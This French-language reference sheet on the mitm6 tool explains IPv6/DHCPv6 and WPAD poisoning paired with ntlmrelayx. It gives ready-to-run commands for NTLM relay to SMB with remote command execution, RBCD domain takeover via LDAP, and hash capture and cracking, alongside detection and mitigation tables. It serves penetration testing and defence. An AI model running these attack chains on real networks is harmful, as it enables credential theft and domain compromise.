

# mitm6 — Empoisonnement IPv6 / DHCPv6 pour NTLM Relay

> [!info] **En 1 phrase**
> mitm6 empoisonne **IPv6/DHCPv6** : il se fait désigner comme **DNS** et **WPAD** par les postes Windows du domaine, puis **relaie l'authentification NTLM** vers ntlmrelayx pour prendre le contrôle du domaine.

---

## Overview

| Champ | Détail |
|---|---|
| **Nom** | mitm6 |
| **Type** | Empoisonnement IPv6/DHCPv6 (WPAD + NTLM Relay) |
| **Licence** | GPLv2 |
| **Langage** | Python (framework Twisted) |
| **Développeur** | dirkjanm (Fox-IT) |
| **Dépositaires** | `github.com/dirkjanm/mitm6` |
| **Installation** | `pip install mitm6` ou paquet Kali |
| **Pré-requis** | Interface réseau en mode privilégié (root/sudo), accès au réseau local, impacket (ntlmrelayx) pour le relais |
| **Plateformes** | Linux (attaquant), postes Windows (cibles) |
| **Objectif** | Se faire passer pour le serveur DNS/WPAD IPv6 du domaine afin de relayer l'authentification NTLM des postes |

---

## Concept

Par défaut, les postes Windows **activent IPv6** et envoient des requêtes **DHCPv6** au boot et régulièrement. Si personne ne répond, l'attaquant peut répondre à la place : le poste configure l'attaquant comme **serveur DNS** et **serveur WPAD**. Le client demande alors `wpad.<domaine>` → l'attaquant répond (proxy frauduleux) → le poste s'authentifie en NTLM → le hash est **relayé** par `ntlmrelayx` vers SMB ou LDAP. Peu connu, mais très efficace car **très peu de monitoring couvre IPv6**.

mitm6 est généralement utilisé en **paire avec `ntlmrelayx.py`** (Impacket) : mitm6 empoisonne, ntlmrelayx attrape et relaie. Il fonctionne même quand **LLMNR/NBT-NS sont désactivés** dans le domaine, ce qui en fait un complément naturel à Responder. Cible idéale : les réseaux où les postes se connectent régulièrement (VLAN invité, Wi-Fi, salles de réunion).

La chaîne d'attaque est souvent appelée « WPAD / NTLM Relay » : elle combine un défaut de configuration réseau (pas de DHCPv6 légitime), un protocole mal protégé (WPAD) et l'authentification NTLM legacy. C'est une attaque « combinée » qui se déroule en deux terminaux, sans outillage lourd, et qui reste très efficace sur les parcs Windows récents tant que LDAP/SMB signing ne sont pas imposés.



---

## Concepts fondamentaux

| Concept | Rôle dans mitm6 |
|---|---|
| **DHCPv6** | Protocole de configuration IPv6 : mitm6 y répond à la place du réseau légitime |
| **IPv6** | Double-stack par défaut sur Windows : toujours activé, peu surveillé |
| **WPAD** | Web Proxy Auto-Discovery : le poste demande `wpad.<domaine>` au DNS puis au serveur HTTP |
| **NTLM relay** | Rejeu du handshake NTLM d'un client vers un autre serveur (SMB/LDAP) sans connaître le mot de passe |
| **DNS spoofing** | mitm6 se fait désigner comme serveur DNS pour résoudre `wpad` vers l'attaquant |
| **RBCD** | Resource-Based Constrained Delegation : objectif LDAP du relais (attribution de droits sur une machine) |
| **LDAP/SMB signing** | Signatures qui empêchent le relais (l'échec du relais = capture uniquement) |
| **Router Advertisement (RA)** | Anomalies de configuration : RA-Guard / DHCPv6-Guard sur les switches |

---

## Installation

### Installation

```bash
# pip
pip install mitm6

# Depuis les sources
git clone https://github.com/dirkjanm/mitm6.git && cd mitm6 && pip install .

# ntlmrelayx fait partie d'Impacket (indispensable pour le relais)
pip install impacket
# Kali : les deux paquets sont déjà présents

# Vérification
mitm6 -h
```

> [!note] À vérifier
> mitm6 nécessite des privilèges root pour ouvrir les sockets IPv6 : lancer avec `sudo`. L'interface réseau est autodétectée mais peut être forcée avec `-i`.

---

## Configuration

mitm6 se configure uniquement par **ligne de commande**. Le réglage principal est le domaine (`-d`) et éventuellement l'interface (`-i`). Tout le reste de la configuration (cible du relais, WPAD) se passe du côté de `ntlmrelayx.py`.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-d <domaine>` | Domaine cible (filtre les requêtes) | `corp.local` | mitm6 ne répond qu'aux requêtes du domaine | `mitm6 -d corp.local` |
| `-i <interface>` | Interface réseau à écouter | `eth0`, `wlan0` | Choisit l'interface d'empoisonnement | `mitm6 -i eth0` |
| `-4` | Écoute aussi IPv4 | flag | Couvre le dual-stack | `mitm6 -4` |
| `-p <ports>` | Ports HTTP WPAD (défaut 80) | liste de ports | Annonce des ports alternatifs | `mitm6 -p 80,8080` |
| `-h` | Aide | flag | Liste des options | `mitm6 -h` |
| `-wh <host>` (ntlmrelayx) | Hostname WPAD annoncé | `wpad.corp.local` | Permet d'attraper les requêtes WPAD | `ntlmrelayx -wh wpad.corp.local -6` |
| `-6` (ntlmrelayx) | Listener IPv6 | flag | Écoute sur IPv6 (côté relais) | `ntlmrelayx -6` |
| `-t <cible>` (ntlmrelayx) | Cible du relais | `smb://`, `ldap://`, `ldaps://`, `http://` | Détermine l'exploitation | `-t smb://192.168.1.10` |
| `--delegate-access` (ntlmrelayx) | Attribution RBCD via LDAP | flag | Crée/définit la délégation sur la machine cible | `-t ldap://dc01 --delegate-access` |

---

## Architecture interne

- **Basé sur Twisted** : mitm6 utilise le framework réseau asynchrone Twisted pour écouter sur plusieurs sockets (DHCPv6, DNS, HTTP) simultanément.
- **Serveur DHCPv6** : mitm6 répond aux requêtes SOLICIT/REQUEST DHCPv6 en proposant des adresses IPv6 et surtout les options DNS (RDNSS) et Domain Search List (DNSSL).
- **Serveur DNS** : il répond aux requêtes DNS des postes qui le prennent comme résolveur — notamment `wpad.<domaine>` → son adresse IPv6.
- **Serveur WPAD** : il renvoie un fichier `wpad.dat` pointant vers lui-même comme proxy (via l'option `PROXY`), afin de recevoir les connexions HTTP authentifiées NTLM.
- **Couplage avec ntlmrelayx** : les connexions HTTP WPAD arrivent sur le listener HTTP de ntlmrelayx (qui gère le challenge NTLM), puis ntlmrelayx relaie le handshake vers la cible SMB/LDAP configurée.
- **Trafic** : mitm6 est un "spoofing DHCPv6/DNS" ; il n'écrit rien sur disque et ne laisse que du trafic réseau.

---

## Commandes

### Commandes principales

```bash
# Terminal 1 : empoisonnement DHCPv6 + DNS
sudo mitm6 -d corp.local

# Terminal 2 : relais NTLM (SMB) + serveur WPAD
sudo ntlmrelayx.py -t smb://192.168.1.10 -wh wpad.corp.local -6

# Variante : relais vers LDAP (silencieux, création de compte / RBCD)
sudo ntlmrelayx.py -t ldap://192.168.1.10 --delegate-access -wh wpad.corp.local -6

# Relais SMB avec exécution de commande à distance
sudo ntlmrelayx.py -t smb://192.168.1.10 -e "whoami" -wh wpad.corp.local -6
```

| Option | Effet |
|---|---|
| `mitm6 -d <domaine>` | domaine à empoisonner (filtré) |
| `mitm6 -i <interface>` | interface (autodétectée sinon) |
| `mitm6 -4` | écoute aussi sur IPv4 (en plus d'IPv6) |
| `ntlmrelayx -wh <host>` | hostname **WPAD** annoncé aux clients |
| `ntlmrelayx -6` | active le listener **IPv6** |
| `ntlmrelayx -t <cible>` | cible du relais : `smb://`, `ldap://`, `http://` |
| `ntlmrelayx --delegate-access` | ajoute des droits de délégation via LDAP (RBCD) |
| `ntlmrelayx -e <cmd>` | exécute une commande sur la cible SMB relayée |
| `ntlmrelayx -of <fichier>` | écrit les hashes capturés dans un fichier |
| `ntlmrelayx --no-http-server` | désactive le listener HTTP (si inutile) |

### Commandes avancées

```bash
# Dual-stack : écoute IPv4 ET IPv6
sudo mitm6 -4 -d corp.local

# Relais vers LDAPS (chiffré) avec RBCD
sudo ntlmrelayx.py -t ldaps://dc01.corp.local --delegate-access -wh wpad.corp.local -6

# Relais SMB en exfiltrant les hashes qui ne peuvent pas être relayés
sudo ntlmrelayx.py -t smb://192.168.1.10 -of /tmp/hashes.txt -wh wpad.corp.local -6
```

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-d <domaine>` | Domaine cible (filtre) | `mitm6 -d corp.local` | Basic |
| `-i <interface>` | Interface d'écoute | `mitm6 -i eth0` | Basic |
| `-4` | Écoute aussi IPv4 | `mitm6 -4` | Intermediate |
| `-p <ports>` | Ports HTTP WPAD | `mitm6 -p 80` | Advanced |
| `-h` | Aide | `mitm6 -h` | Basic |
| `-t smb://` | Relais SMB (ntlmrelayx) | `-t smb://192.168.1.10` | Basic |
| `-t ldap(s)://` | Relais LDAP/LDAPS | `-t ldap://dc01` | Intermediate |
| `-wh <host>` | Hostname WPAD | `-wh wpad.corp.local` | Basic |
| `-6` | Listener IPv6 (ntlmrelayx) | `-6` | Basic |
| `--delegate-access` | RBCD via LDAP | `--delegate-access` | Advanced |
| `-e <cmd>` | Commande sur la cible SMB | `-e whoami` | Intermediate |
| `-of <fichier>` | Sortie hashes capturés | `-of /tmp/h.txt` | Intermediate |
| `--no-http-server` | Désactive le listener HTTP | `--no-http-server` | Expert |

> [!tip] Options les plus utiles au quotidien
> `-d` (domaine), `-t` (cible du relais), `-wh` + `-6` (WPAD IPv6 côté ntlmrelayx).

---

## Exemples pratiques

### Beginner

```bash
# Terminal 1
sudo mitm6 -d corp.local
# Terminal 2
sudo ntlmrelayx.py -t smb://192.168.1.10 -wh wpad.corp.local -6
# Attendre qu'un poste boote / se reconnecte, puis observer les logs.
```

### Intermediate

```bash
# Relais vers LDAP (silencieux) : attribuer la délégation sur une machine
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access -wh wpad.corp.local -6
# Le relais d'un admin crée un compte avec RBCD sur la machine ciblée.
```

### Advanced

```bash
# Relais SMB + exécution de commande
sudo ntlmrelayx.py -t smb://192.168.1.10 -e "whoami" -wh wpad.corp.local -6

# Capture des hashes non-relayables
sudo ntlmrelayx.py -t smb://192.168.1.10 -of /tmp/hashes.txt -wh wpad.corp.local -6
hashcat -m 5600 /tmp/hashes.txt rockyou.txt
```

### Expert

```bash
# Dual-stack complet : IPv4 (Responder) + IPv6 (mitm6)
sudo mitm6 -d corp.local
sudo responder -I eth0 -wd
sudo ntlmrelayx.py -t smb://192.168.1.10 -wh wpad.corp.local -6
# Attention à n'avoir qu'un seul serveur WPAD actif à la fois.
```

---

## Workflow complet (scénario pas à pas)

Scénario : un poste Windows du domaine se connecte au réseau (VLAN invité, Wi-Fi).

1. **Terminal 1** :
   ```bash
   sudo mitm6 -d corp.local
   ```
2. **Terminal 2** :
   ```bash
   sudo ntlmrelayx.py -t smb://192.168.1.10 -wh wpad.corp.local -6
   ```
3. Dès qu'un poste **boote / se reconnecte**, il envoie un DHCPv6 → mitm6 répond → le DNS du poste pointe vers vous.
4. Le poste interroge `wpad.corp.local` → ntlmrelayx répond comme proxy → le poste s'authentifie NTLM.
5. Si le compte est **admin local** de la cible SMB : dump SAM / exécution de commandes. Vers LDAP : création de compte ou droits de délégation.

La patience est la clé : l'empoisonnement DHCPv6 ne rapporte que lorsqu'un poste **boote, se reconnecte ou renouvelle sa configuration**. Sur un réseau peu actif, laisser les deux terminaux tourner plusieurs dizaines de minutes. Les comptes machine et les comptes avec un TTL de session long sont les cibles les plus intéressantes.

---

## Scénarios avancés

### Scénario 1 : RBCD — prise de contrôle du domaine via LDAP

```bash
# Terminal 1 : empoisonnement IPv6
sudo mitm6 -d corp.local
# Terminal 2 : relais vers LDAP avec délégation (Resource-Based Constrained Delegation)
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access \
    -wh wpad.corp.local -6
# Le hash relayé d'un admin permet de définir msDS-AllowedToActOnBehalfOfOtherIdentity
# sur une machine : un compte machine contrôlé peut alors s'y authentifier en tant qu'admin
```

Sur un compte avec droits de réplication ou admin local de DC, cette chaîne donne le contrôle du domaine.

### Scénario 2 : Dual-stack Responder + mitm6

```bash
# Terminal 1 : mitm6 pour IPv6/WPAD
sudo mitm6 -d corp.local
# Terminal 2 : Responder pour LLMNR/NBT-NS (IPv4)
sudo responder -I eth0 -wd
# Terminal 3 : ntlmrelayx prêt à relayer les deux sources
sudo ntlmrelayx.py -t smb://192.168.1.10 -wh wpad.corp.local -6
```

Les deux vecteurs (IPv4 et IPv6) sont couverts même si LLMNR est désactivé. Astuce : ne garder qu'un seul serveur WPAD actif à la fois, sinon les clients reçoivent des réponses concurrentes et le relais devient instable.

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Initial Access | Obtention d'un accès au domaine via le relais d'un compte machine/administrateur |
| Credential Access | Capture de hashes NTLM (via WPAD) quand le relais est bloqué |
| Privilège Escalation | RBCD via LDAP → contrôle d'une machine, puis du domaine |
| Lateral Movement | Accès SMB relayé vers d'autres machines (dumps SAM, exécution) |
| Réseaux sans fil / invités | Cibles idéales : VLAN invité, Wi-Fi, salles de réunion |
| Blue team / lab | Test de la configuration DHCPv6/WPAD et du signing LDAP/SMB |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | Man-in-the-Middle : LLMNR/NBT-NS/WPAD poisoning | T1557.003 | Empoisonnement WPAD pour capturer/relayer NTLM | Requêtes WPAD anormales, réponses DHCPv6 non autorisées | Désactiver WPAD par GPO, DHCPv6 légitime |
| Credential Access | Exploitation du relais NTLM | T1557.001 | Relais du handshake vers SMB/LDAP | Doublons de logons, connexions NTLM relayées | SMB signing, LDAP signing + channel binding |
| Defense Evasion | Impair defenses (manipulation du DNS) | T1562 | Spoofing DNS via DHCPv6 | Logs DNS/DHCP IPv6 incohérents | RA-Guard / DHCPv6-Guard |
| Lateral Movement | Remote Services : SMB | T1021.002 | Relais SMB → dump SAM / exécution | Logons SMB répétés, événements 4624 Type 3 | SMB signing, LAPS |
| Discovery | Remote System Discovery | T1018 | Identification des machines à cibler | Trafic d'énumération | Restreindre l'énumération |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> mitm6 relève de **T1557** (poisoning + relay) ; la phase d'exploitation (SMB/LDAP) est exécutée par ntlmrelayx.

## Defensive Security

| Élément | Analyse |
|---|---|
| **Signature principale** | Réponses DHCPv6/DNS IPv6 non autorisées, requêtes `wpad.<domaine>` répétées |
| **Journal Windows** | Logs DHCPv6 clients, requêtes DNS vers des résolveurs inhabituels, 4624 (relais) |
| **Surveillance** | Alerter sur les réponses DHCPv6/DNS venant d'hôtes non légitimes (RA-Guard, DHCPv6-Guard) |
| **Mesures de prévention** | Désactiver WPAD par GPO, configurer un DHCPv6 légitime, activer LDAP/SMB signing |
| **Réduction de la surface** | Bloquer le trafic DHCPv6 entrant non autorisé, RA-Guard sur les switches, désactiver IPv6 si inutile |
| **Outils de détection** | SIEM (requêtes WPAD/DHCPv6), contrôles réseau (DHCPv6-Guard), honeypots WPAD |

> [!tip] Bien comprendre ce que mitm6 exploite
> mitm6 exploite une **absence de serveur DHCPv6 légitime** et le **double-stack IPv6 par défaut** de Windows. Le durcissement est surtout réseau (DHCPv6-Guard, RA-Guard, WPAD désactivé) et protocole (signing).

---

## Automatisation

| Tâche | Outil | Exemple de commande / code |
|---|---|---|
| Empoisonnement continu | mitm6 en arrière-plan | `sudo mitm6 -d corp.local &` |
| Relais long | tmux/screen | `tmux new -s relay 'ntlmrelayx.py -t smb://... -wh wpad.corp.local -6'` |
| Logs de hashes | `-of` | `-of /tmp/hashes.txt` puis `hashcat -m 5600` |
| Script de test rapide | Bash | `mitm6 -d corp.local & ntlmrelayx.py -t smb://<dc> ... ; sleep 300; pkill` |

---

## Output et parsing

- **mitm6** : sortie console indiquant les requêtes DHCPv6 reçues et les réponses envoyées.
- **ntlmrelayx** : affiche les sessions NTLM relayées (succès/échec) ; avec `-of`, écrit les hashes capturés.
- **Parsing** : les hashes capturés (`-of`) sont directement utilisables avec `hashcat -m 5600`.

```bash
# Exemple de parsing des hashes capturés
cat /tmp/hashes.txt
hashcat -m 5600 /tmp/hashes.txt rockyou.txt
```

---

## Intégrations

| Outil | Usage dans l'écosystème mitm6 |
|---|---|
| [[Outil - Impacket]] | `ntlmrelayx.py` : relais NTLM (SMB/LDAP), `smbclient.py`, `psexec.py` après accès |
| [[Outil - Responder]] | Complément IPv4 (LLMNR/NBT-NS) pour couvrir les deux piles |
| [[Outil - CrackMapExec]] | Valider les hashes relayés/capturés sur le domaine |
| [[Outil - BloodHound]] | Cartographier le domaine après obtention d'un compte via le relais |
| [[Outil - Evil-WinRM]] | Utiliser les creds obtenus pour un shell confortable |
| [[Outil - hashcat]] | Cracker les hashes NTLM capturés quand le relais est bloqué |
| [[Outil - Nmap]] | Repérer les machines et le réseau avant de lancer le couple mitm6/ntlmrelayx |

---

## Alternatives

| Alternative | Différence | Pour qui |
|---|---|---|
| **Responder seul** | Empoisonnement IPv4 (LLMNR/NBT-NS/mDNS) sans WPAD/IPv6 | Réseaux IPv4, LLMNR actif |
| **ntlmrelayx seul (sans mitm6)** | Nécessite un autre vecteur d'empoisonnement ou du trafic NTLM existant | Quand le DHCPv6 n'est pas utilisable |
| **PwNTLMrelay / custom WPAD** | Variantes et forks du relais | Contextes spécifiques |
| **mitm6 + Responder combinés** | Couverture dual-stack complète | Recommandé en pentest |

---

## Performance

| Facteur | Impact | Optimisation |
|---|---|---|
| Absence de trafic DHCPv6 | Aucune victime tant qu'aucun poste ne boote | Laisser tourner longtemps, cibler des réseaux actifs |
| Concurrents (DHCPv6 légitime) | L'empoisonnement échoue si un serveur légitime répond | Choisir un réseau sans DHCPv6, profiter des reboots |
| Volumétrie du relais | Beaucoup de sessions relayées = ralentissement | Ne relayer que vers une seule cible à la fois |
| Double serveur WPAD | Réponses concurrentes = relais instable | Un seul serveur WPAD actif |

---

## Troubleshooting

| Problème | Cause | Solution | Vérification |
|---|---|---|---|
| Aucune requête reçue | Interface fausse / réseau sans IPv6 | Forcer `-i <interface>`, vérifier le réseau | `ip -6 addr` |
| DHCPv6 légitime présent | Un serveur DHCPv6 répond plus vite | Cibler un réseau sans DHCPv6 | `nmap` / logs DHCPv6 |
| Relais échoue (SMB/LDAP) | SMB/LDAP signing activé | Capturer (`-of`) et cracker, changer de cible | Logs ntlmrelayx (succès/échec) |
| WPAD non demandé | WPAD désactivé par GPO ou DNS résolu | Vérifier la politique WPAD, forcer via `-wh` | `dig wpad.corp.local` |
| Pas de droits root | Permissions insuffisantes | `sudo mitm6 ...` | `sudo -l` |
| Listener port 80 occupé | Serveur HTTP déjà actif | `--no-http-server` ou changer de port | `ss -tlnp` |

---

## Sécurité de l'outil

- **Privilèges** : mitm6 doit tourner en root (sockets DHCPv6/DNS) → restreindre l'exécution à un compte dédié et un réseau de test.
- **Portée** : l'empoisonnement DHCPv6 affecte **tout le segment** (les postes du réseau visé) → à n'utiliser que sur des segments autorisés.
- **Données capturées** : les hashes NTLM relayés/capturés sont sensibles → stockage chiffré, effacement après analyse.
- **Écoute** : l'outil ouvre des sockets d'écoute (DHCPv6, DNS, HTTP) → surveiller les interfaces et les ports ouverts, ne pas le laisser tourner sur une interface publique.
- **Nettoyage** : arrêter proprement mitm6/ntlmrelayx et supprimer les fichiers de logs.

---

## Limitations

- **Dépendance au trafic** : nécessite qu'un poste Windows boote/se reconnecte sur le segment.
- **Signing bloquant** : le relais échoue si SMB/LDAP signing est obligatoire (repli sur la capture + crack).
- **Réseaux sans IPv6** : sans double-stack, mitm6 ne rapporte rien (utiliser Responder à la place).
- **DHCPv6 légitime** : un serveur DHCPv6 correctement configuré neutralise l'attaque.
- **Nécessite ntlmrelayx** : mitm6 seul ne capture pas les hashes (couplage avec Impacket indispensable).

---

## Cheatsheet

```text
# Terminal 1 : empoisonnement IPv6/DHCPv6
sudo mitm6 -d corp.local
sudo mitm6 -i eth0 -4 -d corp.local       # dual-stack, interface forcée

# Terminal 2 : relais NTLM (SMB)
sudo ntlmrelayx.py -t smb://192.168.1.10 -wh wpad.corp.local -6
sudo ntlmrelayx.py -t smb://192.168.1.10 -e "whoami" -wh wpad.corp.local -6
sudo ntlmrelayx.py -t smb://192.168.1.10 -of /tmp/hashes.txt -wh wpad.corp.local -6

# Relais vers LDAP (RBCD)
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access -wh wpad.corp.local -6

# Cracking des hashes capturés
hashcat -m 5600 /tmp/hashes.txt rockyou.txt
```

---

## Quick reference

| Situation | Action immédiate |
|---|---|
| Réseau local avec des postes Windows | `sudo mitm6 -d corp.local` + `ntlmrelayx.py -t smb://<cible> -wh wpad.corp.local -6` |
| Prendre le contrôle via LDAP | `ntlmrelayx.py -t ldap://<dc> --delegate-access -wh wpad.corp.local -6` |
| Le relais échoue (signing) | `-of /tmp/h.txt` puis `hashcat -m 5600` |
| Réseau sans IPv6 | Utiliser [[Outil - Responder]] |
| Segment sans DHCPv6 légitime | L'idéal : mitm6 rapporte vite |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Trafic DHCPv6 entrant non autorisé | Bloquer le **trafic DHCPv6 entrant**, configurer un DHCPv6 légitime |
| Requêtes `wpad.<domaine>` | Désactiver le WPAD par GPO (les requêtes WPAD sont un signal) |
| Réponses **non autorisées** en IPv6 (rarement monitoré) | Superviser les logs DNS/DHCP IPv6, contrôler les annonces RA |
| Relais vers LDAP | **LDAP signing** obligatoire + channel binding |
| Relais vers SMB | **SMB signing** obligatoire |
| Annonces RA (Router Advertisement) non autorisées | RA-Guard / DHCPv6-Guard sur les switches, ou désactivation de l'IPv6 |

---

## Tips & Pièges

> [!tip] **Complément naturel** : mitm6 + ntlmrelayx fonctionne même quand **LLMNR/NBT-NS sont désactivés** (il attaque IPv6 et WPAD). Le couple Responder + mitm6 couvre les mondes IPv4 et IPv6.

> [!tip] **Test rapide de vulnérabilité** : lance `sudo mitm6 -d corp.local` + `ntlmrelayx.py -t smb://<dc>` quelques minutes : si un poste apparaît dans les logs d'authentification relayée, le réseau est vulnérable au relais NTLM.

> [!warning] **Piège** : s'il y a un **serveur DHCPv6 légitime** qui répond plus vite, mitm6 n'obtient rien. Vérifie qu'aucun DHCPv6 n'est actif (ou profite des reboots).

> [!warning] **Piège** : le relais échoue si **SMB/LDAP signing** est activé sur la cible. Dans ce cas le hash est **capturé mais pas relayé** : bascule sur le crack (hashcat mode 5600) ou change de cible.

---

## References

- GitHub officiel : https://github.com/dirkjanm/mitm6
- Blog dirkjanm (attaque combo) : https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
- The Hacker Recipes — mitm6 : https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/mitm6
- Portail Obsidian `Techniques` : [[Coerce - PrinterBug et PetitPotam]], [[ACL Abuse AD]]

**Liens :** [[Outil - mitm6]] | [[Outil - Responder]] | [[Outil - Impacket]] | [[Outil - CrackMapExec]] | [[Outil - BloodHound]] | [[Outil - Evil-WinRM]] | [[Outil - hashcat]] | [[Outil - Nmap]]

